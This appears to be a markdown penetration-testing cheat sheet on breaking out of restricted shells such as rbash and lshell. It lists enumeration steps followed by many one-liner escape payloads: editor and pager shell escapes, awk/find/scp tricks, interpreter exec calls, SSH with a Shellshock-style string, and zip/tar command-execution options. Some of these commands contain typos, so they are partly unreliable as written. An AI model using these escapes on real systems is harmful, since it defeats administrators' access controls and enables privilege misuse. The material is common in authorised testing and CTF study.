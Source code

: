 # Getting Out of Restrictive Shells

<details>

<summary>What is Restrictive shell?</summary>

* A shell that blocks/restricts some commands like (`ls`, `cd`, `echo`)&#x20;
* Blocks environment variables like `SHELL`, `PATH`, `USER`&#x20;

<!---->

* Restricted shell can be `rbash`, `rksh`, `rsh` (check using: `echo $SHELL`)

</details>

<details>

<summary>What to enumerate for</summary>

*   Commands like `cd`, `ls`, `echo`

    * `echo $PATH`
      * `ls -la /usr/home/tom/usr/bin` --> to know what commands I can run


* Operators like `>`, `>>`, `<`, `|`
* Check for presence of programming lang (perl, ruby, python)
* Check what commands user can run as root
* Check file with SUID perm
* Check environmental variables (`env`, `printenv`)

</details>

<details>

<summary>Common Exploitation Techniques</summary>

* If Vi/vim allowed --> `vi --cmd ':set shell=/bin/sh|:shell'`

<!---->

* If `/` is allowed --> run `/bin/bash` or `/bin/sh`
* If `cp` is allowed --> copy `/bin/sh` or `bin/bash` to your directory
* From FTP, `more`, `man`, `less`, `vim`--> `!/bin/sh` or `!/bin/bash`

<!---->

* From `rvim` --> `python import os; os.system("/bin/bash")`
* From `scp` --> `scp -S /path/yourscript x y`
* From awk --> `awk 'BEGIN {system("/bin/sh or /bin/bash")`
* From find --> `find / -name test -exec /bin/sh or /bin/bash`

<!---->

* For lshell, `echo os.system('/bin/bash')`

</details>

<details>

<summary>Programming Languages Techniques</summary>

* Expect (used to automate repetitive tasks)

```bash
expect spawn sh
sh
```

* Python

```bash
python -c 'import os; os.system("/bin/sh")'
```

* PHP

```php
php -a
exec("sh -i");
```

* Perl

```perl
perl -e 'exec "/bin/sh";'
```

* Lua

```
os.execute('/bin/sh')
```

* Ruby

```bash
exec "/bin/sh"
```

</details>

<details>

<summary>Fix Path (Linux)</summary>

```bash
export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:$PATH
```

</details>

<details>

<summary>Advanced Techniques</summary>

* SSH

```bash
ssh username@IP - t "/bin/sh"
```

```bash
ssh username@IP -t "bash --noprofile"
```

```bash
ssh username@IP -t "() { :; }; /bin/bash
```

```bash
ssh -o ProxyCommand="sh -c /tmp/yourfile.sh"
127.0.0.1
```

* Git

1. `git help status`
2. `!/bin/bash`

* Pico

1. `pico -s "/bin/bash"`
2. `/bin/bash`
3. CTRL-T

* Zip

```bash
zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c
/bin/bash"
```

* Tar

```bash
tar cf /dev/null testfile --checkpoint=1 --checkpointaction=exec=/bin/bash
```

</details>
